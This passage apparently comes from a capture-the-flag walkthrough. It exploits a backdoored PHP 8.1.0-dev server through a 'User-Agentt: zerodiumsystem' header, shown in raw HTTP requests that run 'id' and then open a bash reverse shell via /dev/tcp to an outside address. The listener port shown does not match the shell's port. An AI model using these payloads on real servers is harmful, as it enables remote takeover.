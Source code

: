 ```bash
X-Powered-By: PHP/8.1.0-dev
Vary: Accept-Encoding
Content-Length: 5822
Connection: close
Content-Type: text/html; charset=UTF-8
# int(6)
<!DOCTYPE html>
```

2. try commands

![Screen Shot 2021-05-29 at 2.15.37 PM](https://i.imgur.com/1MHe7qp.png)

```bash
# request
GET / HTTP/1.1
Host: 10.10.10.242
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
# User-Agentt: zerodiumsystem("id");
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

# response
HTTP/1.1 200 OK
Date: Sat, 29 May 2021 19:16:14 GMT
Server: Apache/2.4.41 (Ubuntu)
X-Powered-By: PHP/8.1.0-dev
Vary: Accept-Encoding
Content-Length: 5866
Connection: close
Content-Type: text/html; charset=UTF-8
# uid=1000(james) gid=1000(james) groups=1000(james)
```


3. push a **bash shell** under **“user-agentt”**

```bash
# setup the reverse shell
ncat -l -p 1111
```

```bash
# request
GET / HTTP/1.1
Host: 10.10.10.242
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
# User-Agentt: zerodiumsystem("/bin/bash -c 'bash -i >&/dev/tcp/10.10.14.240/9001 0>&1'");
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```
